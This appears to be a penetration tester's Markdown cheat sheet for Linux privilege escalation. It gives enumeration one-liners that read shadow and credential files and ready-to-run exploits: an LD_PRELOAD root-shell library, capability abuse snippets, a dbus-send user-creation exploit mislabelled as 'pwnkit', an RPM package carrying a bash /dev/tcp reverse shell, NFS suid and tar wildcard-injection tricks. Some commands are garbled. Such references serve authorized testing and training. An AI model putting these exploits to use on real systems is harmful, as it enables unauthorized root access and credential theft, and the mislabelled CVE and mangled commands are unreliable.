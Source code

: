 # Linux

# Linux Privilege Escalation

## Misconfiguration

- Find writable directories
`find / -path /proc -prune -o -type d -perm -o+w 2>/dev/null`
- Find writable directories in PATH
`IFS=':'; read -a patharr <<< "$PATH"; for dir in ${patharr[@]}; do if [ -w $dir ]; then echo -e "$dir : WRITABLE"; fi; done;`
- Find writable files
`find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null`
- Find suid binaries
`find / -perm /4000 2>/dev/null`
- Find guid binaries
`find / -perm /2000 2>/dev/null`
- Find binaries with capabilities
`getcap -r / 2>/dev/null`
- Look for cronjob
`crontab -lcat /etc/crontab`
- Look for nfs exports
`cat /etc/exports`
- Find unmounted drives
`ls /dev 2>/dev/null | grep -i "sd"`
- Look for credentials in fstab
`grep -E "(user|username|login|pass|password|pw|credentials)[=:]" /etc/fstab /etc/mtab 2>/dev/null`
- Look for mounted drives
`cat /etc/fstab 2>/dev/null | grep -v "^#" | grep -Pv "\\W*\\#" 2>/dev/null`
- Find hidden files
`find / -type f -iname ".*" -ls 2>/dev/null`
- Look for backup files
`find /var /etc /bin /sbin /home /usr/local/bin /usr/local/sbin /usr/bin /usr/games /usr/sbin /root /tmp -type f \\( -name "*backup*" -o -name "*\\.bak" -o -name "*\\.bck" -o -name "*\\.bk" \\) 2>/dev/null`
- Look for passwd and shadow files

```bash
#Passwd equivalent files
cat /etc/passwd /etc/pwd.db /etc/master.passwd /etc/group 2>/dev/null
#Shadow equivalent files
cat /etc/shadow /etc/shadow- /etc/shadow~ /etc/gshadow /etc/gshadow- /etc/master.passwd /etc/spwd.db /etc/security/opasswd 2>/dev/null

```

## LD_PRELOAD

If `env_keep += LD_PRELOAD` in sudoers:

```
$ cat << EOF > /tmp/shell.c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
	unsetenv("LD_PRELOAD");
	setgid(0);
	setuid(0);
	system("/bin/sh");
}
EOF
$ gcc -fPIC -shared -o shell.so shell.c -nostartfiles
$ ls -al shell.so
$ sudo LD_PRELOAD=/tmp/shell.so /usr/bin/*****
# id
uid=0(root) gid=0(root) groups=0(root)

```

## Capabilities

### cap_setuid+ep

- perl

```
use POSIX qw(setuid);
POSIX::setuid(0);
exec "/bin/sh";

```

- python

```
import os
os.setuid(0)
os.system('/bin/bash')

```

### cap_chown

- python

```
import os
os.chown("/etc/shadow", 1000, 1000)

```

- ruby

```
require 'fileutils'
FileUtils.chown_R 'user', 'user', '/etc/shadow'

```

## Binaries

- Look inside binaries for exploit possibilities

```
strings /path/to/binary

```

> If we find calls to an executable using relative path, we can create a malicious script using the binary name and update PATH to include the folder
> 

## Local exploits

### pwnkit (cve-2021-3560)

- Last vulnerable package (ubuntu) : 0.105-26ubuntu1
- Manual exploit (create attacker user with sudo rights)

```
# Create the user
dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:attacker string:"Pentester Account" int32:1 & sleep 0.005s; kill $!
# Create a password
openssl passwd -6 mynewpassword
# Set the password
dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts/User1000 org.freedesktop.Accounts.User.SetPassword string:'$6$TRiYeJLXw8mLuoxS$UKtnjBa837v4gk8RsQL2qrxj.0P8c9kteeTnN.B3KeeeiWVIjyH17j6sLzmcSHn5HTZLGaaUDMC4MXCjIupp8.' string:'Ask the pentester' & sleep 0.005s; kill $!

```

### Overwrite file with symlink

Scenario : if root write a file in a folder for which you have write permission, it's possible to overwrite a file only root can write by creating a symlink to the target file.
Example : [https://0xdedinfosec.vercel.app/posts/hackthebox-timing-writeup](https://0xdedinfosec.vercel.app/posts/hackthebox-timing-writeup)

```
# lowpriv can download a file as root via sudo to his home directory.
# create a symlink to /root/.ssh/authorized_keys
# on attack machine, serve a public key named authorized_keys
# download the file as root which will overwrite the link target
ln -s /root/.ssh/authorized_keys ~/.ssh/authorized_keys
sudo ....... (download authorized_keys > /root/.ssh/)

```

### yum

- Get a reverse shell using crafted rpm package

If low priv user can run yum as root, we can craft a rpm package to get a reverse shell as root:

```
# Create a script with reverse shell commands
# root.sh:
#!/bin/bash
bash -c 'bash -i >& /dev/tcp/0.0.0.0/4444 0>&1'

# Then use fpm docker image to build the rpm:
docker run --rm -v $(pwd):/data skandyla/fpm -n packagename -s dir -t rpm -a all --before-install /data/root.sh  -p /data /data
# Start an HTTP server and tcp listener
python -m SimpleHTTPServer 8000
nc -lnvp 4444
# On the target machine, install the rpm package:
sudo yum install <http://0.0.0.0:8000/root-1.0-1.noarch.rpm>

```

### nfs

- Exploit rootsquash

```
# Copy a bash binary to mounted NFS
cp bash /mount/point/to/nfs
# Set owner to root
sudo chown root /mount/point/to/nfs/bash
# Set uid on binary
chmod a+sx /mount/point/to/nfs/bash
# Run the binary in low privilege shell
./bash -p (in low privilege shell)

```

### tar

- Exploit tar with wildcard injection

```
# Example tar command: cd /folder; tar cf /backup.tgz *
# Exploit this with checkpoint injection:
cd /folder
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
# Wait for tar to run as root

```

### pkexec

See this writeup for THM's road
[https://wiki.thehacker.nz/docs/thm-writeups/road-medium/](https://wiki.thehacker.nz/docs/thm-writeups/road-medium/)

## Shell escape sequence

[Escape Sequences](Linux%20aa8ba/Escape%20Seq%20a85c1.csv)

## Tools

- [https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)
- [https://github.com/diego-treitos/linux-smart-enumeration/blob/master/lse.sh](https://github.com/diego-treitos/linux-smart-enumeration/blob/master/lse.sh)
- [https://github.com/sleventyeleven/linuxprivchecker](https://github.com/sleventyeleven/linuxprivchecker)
- [https://github.com/rebootuser/LinEnum](https://github.com/rebootuser/LinEnum)

## Guides

- [https://book.hacktricks.xyz/linux-unix/privilege-escalation](https://book.hacktricks.xyz/linux-unix/privilege-escalation)
- [https://book.hacktricks.xyz/linux-unix/privilege-escalation/wildcards-spare-tricks](https://book.hacktricks.xyz/linux-unix/privilege-escalation/wildcards-spare-tricks)
- [https://www.helpnetsecurity.com/2014/06/27/exploiting-wildcards-on-linux/](https://www.helpnetsecurity.com/2014/06/27/exploiting-wildcards-on-linux/)
- [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology and Resources/Linux - Privilege Escalation.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md)
- [https://gtfobins.github.io/](https://gtfobins.github.io/)
- [https://tbhaxor.com/exploiting-linux-capabilities-part-3/](https://tbhaxor.com/exploiting-linux-capabilities-part-3/)

## Writeups

- [https://blog.tryhackme.com/skynet-writeup/](https://blog.tryhackme.com/skynet-writeup/)
- [https://s1gh.sh/tryhackme-wonderland/](https://s1gh.sh/tryhackme-wonderland/)